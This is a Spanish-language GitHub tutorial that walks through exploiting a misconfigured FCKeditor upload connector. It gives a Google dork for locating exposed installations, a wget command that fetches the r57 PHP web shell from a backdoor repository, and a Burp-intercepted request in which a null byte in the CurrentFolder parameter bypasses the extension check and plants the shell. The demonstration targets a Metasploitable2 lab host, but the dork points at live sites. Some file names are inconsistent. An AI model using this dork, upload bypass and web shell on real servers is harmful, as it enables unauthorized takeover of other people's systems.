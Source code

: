 
# Vulnerabilidad en Control a partir de una ubicación de un dork

## FCKeditor 

El FCKEditor es un editor de texto Open Source del tipo WYSIWYG (What you see is what you get), muy parecido a editores ya conocidos como MS Word o el propio Google Docs. Lo interesante de este editor es que no necesita instalación alguna en el cliente: se basa en el servicio HTTP, es decir, a través de un browser, el usuario puede crear y modificar documentos de texto que luego pueden ser exportados y descargados. Este editor es compatible con la gran mayoría de navegadores conocidos incluyendo a Internet Explorer, Firefox, Safari, Opera y Netscape.

![image](https://user-images.githubusercontent.com/50930193/167024936-42353524-36ca-42d8-99a1-e4fe5224165f.png)

FCKeditor se basa en un núcleo escrito en JavaScript, pero, tambíén es implementado con tecnologías de lado servidor como Asp, Asp.net, Java, PHP, entre otros. Es así que este editor se convierte en una opción para aquel administrador de red que necesite implementar este tipo se soluciones en sus organizaciones.

## Vulnerabilidad y Escenario (Búsqueda desde OSINT)

Se asume que un sitio web, http://www.vulnerable.com, tiene instalado el producto FCKeditor con una isntalación por defecto.  La vulnerabilidad consiste emplear la mala configuración de una instalación de FCKeditor.  Para ello, se hace uso de la opción de carga (upload) de archivos de este producto. 

FCKEditor incluye un paquete ‘filemanager’, el cual permite a los desarrollares web incluir en las aplicaciones que desarrollen un módulo de upload el cual se pone a disposición de los usuarios finales. 

## OSINT
Ubicar fckeditor
```
inurl:/editor/editor/filemanager/upload/
```
En el caso de aplicaciones web con PHP, un archivo relevante para explotar esa vulnerabilidad es el archivo ‘upload.php’o ‘uploadtest.html’, el cual está disponible en la siguiente localización.
```
www.vulnerable.com/editor>/editor/filemanager/connectors/php/upload.php
```
Si ejecutan el dork combinado con otras característica en google les dará el siguiente resultado  

![image](https://user-images.githubusercontent.com/50930193/167029067-172c67d4-6f39-4b3f-817b-ce8a76c990bf.png)


## RECONOCIMIENTO y ENUMERACIÓN

Cargar la página que permite ejecutar la vulnerabilidad, en este caso utilicemos la IP de la maquina metasploitable2
```
http://192.168.109.171/fckeditor/editor/filemanager/connectors/uploadtest.html
```
![image](https://user-images.githubusercontent.com/50930193/167029598-8add822e-f691-4d57-b748-853616ac9415.png)

Determinar el servidor web y posible lenguaje de programación soportado, utilice wappalizer

![image](https://user-images.githubusercontent.com/50930193/167030373-ee09482e-8123-43ab-bee9-c684c45d1d21.png)

Uno de los datos que es necesario saber es el lenguaje de programación que hay detrás del servidor vulnerable. 
![image](https://user-images.githubusercontent.com/50930193/167030476-994b3c1b-3f2d-4625-a494-8acbefb9abf5.png)

Luego, ingresar los parámetros del formulario, en ese sentido, seleccionar de la lista ‘File Uploader’ el element PHP, ‘Resource Type’ el element  File y finalmente ingresa un archivo png 

![image](https://user-images.githubusercontent.com/50930193/167031058-ad74507a-9254-4570-8ecb-1fa3652c54a4.png)

 Presiona el botón de Send to Server, luego del cual siempre y cuando el sitio es vulnerable se mostrara el siguiente mensaje.

 ![image](https://user-images.githubusercontent.com/50930193/167031480-d08e5733-3828-4e78-b5c4-762f14f2591a.png)

Ahora se puede revisar el archivo que se ingreso
```
http://192.168.109.171/userfiles/hacked1.png
```
![image](https://user-images.githubusercontent.com/50930193/167031694-90314502-c6f7-4c48-96cc-98d1eb194de4.png)

## Subir Archivos Scripts que permitirían controlar el servidor

A sabiendas que es posible subir al servidor archivos, considerar que se pueden subir archivos php el cual 
permitirán la ejecución del comandos en el servidor, si se intenta subir un archivo php notarán que se 
muestra la siguiente pantalla. Considere el archivo **helloworld.php** para cargarlo

FILE:helloworld.php
```
<?php
echo 'Hello World';
?>
```
Intente cargar el archivo

![image](https://user-images.githubusercontent.com/50930193/167035314-53227742-f653-45df-95ec-9941e49cab67.png)

Eso quiere decir que en el servidor se valida información y no permite la carga de dicho archivo

Vamos a intentar emplear una técnica de cambio de datos en la cabecera para bypasear el control, pero antes descarguemos una web shell

```
wget https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/php/r57.php

```
![image](https://user-images.githubusercontent.com/50930193/167035978-a8bd0c34-ea95-48d7-96c5-d2b5b30e1755.png)

Manos a la obra, renombre **r57.php** a **r57.txt** 
```
cp r57.php r57.txt
```
Ahora intente cargar el archivo **c99.txt** y cargue el archivoteniendo en cuenta que “intercept” en el burp esté activo, en el 
Burpsuite elija proxy y luego intercept y verás esta pantalla

![image](https://user-images.githubusercontent.com/50930193/167036644-a63abaf0-cc6c-476c-9a26-d7a3cf33888b.png)

Para cargar el archivo se deberá renombrar la cadena del POST de la siguiente manera:

Dice:
```
/filemanager/connectors/php/upload.php?time=1497572358682&CurrentFolder=/ HTTP/1.1
```
Debe decir
```
/filemanager/connectors/php/upload.php?time=1497572358682&CurrentFolder=t1.php%00/ HTTP/1.1
```

![image](https://user-images.githubusercontent.com/50930193/167039782-0481181a-348f-4f8f-b80c-ddb6ddc92a9d.png)

Dar clic en el botón de “forward” (varias veces) y luego desactivar “Interceptn”

9.	Le aparecerá la ruta sonde se grabó y saldrá un mensaje de alerta que diga que el archivo fue cargado sin errores

![image](https://user-images.githubusercontent.com/50930193/167039254-65a32194-dd20-4057-b274-345c550287fb.png)


Ud. Puede ingresar a la ruta
```
192.168.109.171/userfiles/t2.php
```
11.	Revisará que la Shell fue ingresada al sitio

![image](https://user-images.githubusercontent.com/50930193/167039142-65bb27f4-bc25-400f-bf06-67449ffc012e.png)


12.	Si emplea esto con un sitio de Internet recuerde de evitar un perjuicio para dicha entidad.
